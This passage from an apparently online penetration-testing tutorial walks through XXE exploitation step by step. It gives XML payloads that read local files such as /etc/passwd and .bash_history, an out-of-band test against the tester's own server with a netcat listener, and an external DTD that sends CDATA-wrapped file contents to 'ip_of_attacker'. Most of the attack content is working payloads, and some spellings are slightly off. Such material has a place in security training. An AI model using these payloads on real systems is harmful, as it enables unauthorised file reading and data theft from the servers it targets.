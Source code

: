 #### 2nd Step
Than you should try to test found endpoints for the existence of classical XXE. You should try to upload some XXE payload and observe reaction of the application. If the application returns result of parsers, you're ready to try reading internal files by using classical XXE. Firstly find out if entities of XML are interpreted. To achieve this you have to insert entities of XML to input data of this format and look if they load properly:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Example [
	<!Entity test SYSTEM "Hello!">
]>
<example>&test;</example>
```
If they load properly try loading local files:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Example [
	<!Entity test SYSTEM "file:///etc/hostname">
]>
<example>&test;</example>
```
If keyword SYSTEM doesnt work you can try replacing it with PUBLIC. PUBLIC requires providing identifier after the keyword. You can use random String.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Example [
	<!Entity test PUBLIC "abc" "file:///etc/hostname">
]>
<example>&test;</example>
```
Not try to extract some standar files of system. 
/etc/hostname/
/etc/passwd
.bash_history
Sometimes access can be limited so try to read everything that you can and is valuable.

#### 3rd Step
If that doesn't return any XML documents you can try testing out blind XXE. Most of the blind XXE forces server to exfiltrate data and send it to attackers server.
To be sure that target server can connect to other servers you will have to force it to send request to your server. You can configure netcat to open port and then try to connect to your kali machine. You should try doing so with 80, 443 ports, because firewall might be blocking connections on other ports. After booting up netcat listener you should try injecting something like this:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Example [
	<!Entity test SYSTEM "http://server:80/xxe_test.txt">
]>
<example>&test;</example>
```
You should try lookin for any logs that trying to request xxe_test.txt.

Exfiltrating data using XXE is complicated, especially if the parser is protected against XXE and if you're trying to read files with very specific file types. Sometimes you have to exfiltrate files containing special characters of XML like <> " ' or &. Trying to get access to those files with XXE would break DTD Syntax and disturb exfiltration. There is a way however to solve this problems. In XML file special character packed in CDATA are not perceived as special characters. If you are exfiltrating XML file you can try to rewrite your malicious external DTD definition in the following way:
```
<!Entity % file System "file:////password.xml">
<!Entity % start "<![CDATA[">
<!Entity % end "]]>">
<!Entity % ent "<!ENTITY &#x25; exfiltrate 
	'https://ip_of_attacker/?%start;%file;%end;'>">
%ent;
```